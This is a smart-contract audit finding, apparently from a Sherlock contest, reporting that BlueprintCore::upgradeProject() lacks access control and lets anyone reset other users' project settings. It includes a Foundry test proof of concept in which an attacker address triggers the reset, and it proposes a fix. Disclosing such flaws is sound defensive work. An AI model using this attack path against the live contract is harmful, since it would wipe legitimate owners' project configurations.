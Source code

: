 Soaring Caramel Dragon

High

# Missing access control in `BlueprintCore::upgradeProject()` allows unauthorized project reset

### Summary

Missing access control in `BlueprintCore::upgradeProject()` causes unauthorized project resets as any user can call this function to reset critical project parameters, effectively nullifying legitimate project configurations.

### Root Cause

The `BlueprintCore.sol::upgradeProject()` function lacks access control checks, allowing any address to reset project parameters including `requestProposalID`, `requestDeploymentID`, and `proposedSolverAddr` for any existing project.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L198-L203

### Internal Pre-conditions

1. A legitimate user creates a project and sets up its configuration through `createAgentWithToken()`, `createProjectIDAndProposalRequest()` or similar functions

### External Pre-conditions

N/A

### Attack Path

1. Legitimate user creates a project using `BlueprintCore::createProjectIDAndProposalRequest()`
2. Project gets configured with valid `requestProposalID`, `requestDeploymentID`, and `proposedSolverAddr`
3. Attacker calls `BlueprintCore::upgradeProject(projectId)`
4. All project parameters are reset to their initial values:
   - `requestProposalID = 0`
   - `requestDeploymentID = 0`
   - `proposedSolverAddr = dummyAddress`

### Impact

The legitimate project owner suffers complete loss of project configuration and functionality. The project needs to be reconfigured from scratch, disrupting any ongoing operations or deployments. This can be repeatedly exploited by the attacker, effectively making the project unusable.

### PoC

Create a new test case in `test/BlueprintCoreProjectReset.t.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";

contract BlueprintCoreProjectResetTest is Test {
    BlueprintV5 blueprint;
    address owner = address(0x1);
    address attacker = address(0x2);
    
    function setUp() public {
        blueprint = new BlueprintV5();
    }
    
    function test_projectReset() public {
        // Owner creates and configures project
        bytes32 projectId = keccak256("test-project");

        vm.prank(owner);
        bytes32 requestId = blueprint.createProjectIDAndProposalRequest(
            projectId,
            "base64param",
            "server.url"
        );
        
        // Get project info before attack
        (, bytes32 currentProposalId,) = blueprint.getProjectInfo(projectId);
        assertNotEq(currentProposalId, bytes32(0));
        assertEq(currentProposalId, requestId);
        
        // Attacker resets project
        vm.prank(attacker);
        blueprint.upgradeProject(projectId);
        
        // Project configuration is reset
        (, bytes32 newProposalId,) = blueprint.getProjectInfo(projectId);
        assertEq(newProposalId, bytes32(0));
    }
}
```

Run the test case:

```bash
forge test --mt test_projectReset
```

### Mitigation

Add access control to ensure only the project owner can upgrade their project.